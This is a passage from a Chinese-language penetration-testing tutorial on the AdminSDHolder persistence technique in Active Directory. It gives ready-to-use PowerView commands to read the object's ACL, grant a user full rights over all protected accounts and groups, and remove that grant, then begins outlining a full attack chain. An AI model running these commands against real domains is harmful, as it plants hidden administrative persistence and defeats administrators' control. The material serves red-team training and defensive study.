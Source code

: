 使用PowerView，地址如下：

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

**注：**

该版本不支持`Remove-DomainObjectAcl`命令

查询AdminSDHolder对象的ACL等价于查询"CN=AdminSDHolder,CN=System,DC=test,DC=com"的ACL

命令如下：

```
Import-Module .\PowerView.ps1
Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System" |select IdentityReference
```

### 2.向AdminSDHolder对象添加ACL

使用PowerView，地址如下：

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

添加用户testa的完全访问权限，命令如下：

```
Import-Module .\PowerView.ps1
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName testa -Verbose -Rights All
```

默认等待60分钟以后，testa获得对所有受保护的AD账户和组的完全访问权限

### 3.删除AdminSDHolder中指定用户的ACL

使用PowerView，地址如下：

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

**注：**

该版本支持`Remove-DomainObjectAcl`命令，但不支持参数TargetADSprefix，所以这里使用TargetSearchBase参数代替

搜索条件为`"LDAP://CN=AdminSDHolder,CN=System,DC=test,DC=com"`

删除用户testa的完全访问权限，命令如下：

```
Remove-DomainObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=test,DC=com" -PrincipalIdentity testa -Rights All -Verbose
```

## 0x05 完整利用思路
---

### 1.枚举受保护的AD账户和组中的信息

查找有价值的用户，需要确认该用户是否属于受保护的AD账户和组，排除曾经属于受保护的AD账户和组

### 2.向AdminSDHolder对象添加ACL
